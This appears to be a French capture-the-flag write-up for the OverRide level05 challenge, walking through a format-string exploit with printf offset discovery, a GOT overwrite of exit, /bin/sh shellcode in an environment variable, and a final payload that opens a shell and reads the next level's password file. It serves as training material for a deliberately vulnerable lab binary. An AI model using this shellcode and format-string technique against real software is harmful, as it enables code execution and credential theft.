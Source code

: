 En de-compilant le programme on ce rend compte que l'on peux exécuter un shellcode avec un __printf__ pas sécurisé.

---
On vas donc chercher __offset__ du __printf__:

``` bash 
level05@OverRide:~$ python -c 'print "AAAA" + " %p " * 15' | ./level05
aaaa 0x64  0xf7fcfac0  (nil)  (nil)  (nil)  (nil)  0xffffffff  0xffffd344  0xf7fdb000  => 0x61616161 <=  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520
```

on trouve donc un offset de ==10==

---
Avec ceci et le faite qu'il y ai un __exit()__ dans le programe on vas chercher l'addresse de celui-ci:

``` bash
level05@OverRide:~$ gdb ./level05
(gdb) info func exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

on obtient donc l'addresse ==0x80497e0==

---

Ensuite nous allons placer le __shellcode__ dans un variable d'envionnement et chercher son addresse:
(shellcode qui execute un "__/bin/sh__")
``` bash 
export SHELLCODE=$(python -c 'print "\x90"*1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

programe pour recup l'addresse:

```c
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }

```

``` bash
level05@OverRide:~$ ./a.out SHELLCODE
env address at 0xffffd4d7 
```

---
Avec c'est info on peux enfin exécute notre shellcode, a une exception prés. Le shellcode ce trouve trop loin dans les adresse du coup on vas devoir découper le décalage en deux pour le pas overflow celui-ci.

on vas donc découper l’adresse en deux :

> adresse : 0xffffd4d7
> première parti: 0xffff conversion en décimal -> 65535
> deuxième parti: 0xd4d7 conversion en décimal -> 54487

On a découpé l'adresse en deux ce qui donne 2 fois 2 octets. On vas donc écrire la première parti de l'adresse sur l'adresse de __exit()__ puis sur l'adresse deux plus loin.

premier decalage 54487 - 8 = 54479
deuxieme decalage 65535 - 54487 = 11048

* tout ce qu'on écrie avant les deux décalage dois être soustrait pour celui-ci

> (python -c 'print "[exit address]" + "[exit address + 2]" + "%[first decalage]x" + "%10$08hn" + "%[second decalage]x" + "%11$08hn"' ; cat -) | ./level05

```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54479x" + "%10$08hn" + "%11048x" + "%11$08hn"' ; cat -) | ./level05
```

il nous reste plus cas executer :

```bash
cat /home/users/level06/.pass
```